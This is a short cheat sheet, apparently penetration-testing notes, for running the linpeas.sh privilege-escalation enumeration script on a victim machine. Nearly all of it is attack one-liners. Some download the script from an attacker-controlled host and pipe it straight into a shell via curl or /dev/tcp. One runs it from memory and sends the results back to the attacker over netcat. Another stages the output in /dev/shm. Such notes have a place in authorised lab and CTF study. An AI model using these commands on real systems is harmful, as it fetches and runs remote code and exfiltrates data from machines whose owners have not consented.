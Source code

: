 # linpeas.sh

## Running linpeas.sh

### Local Network

```text
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

### Without curl

```text
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```

### Execute from memory and send output back to the host

```text
#Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

### Output to file

```text
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```

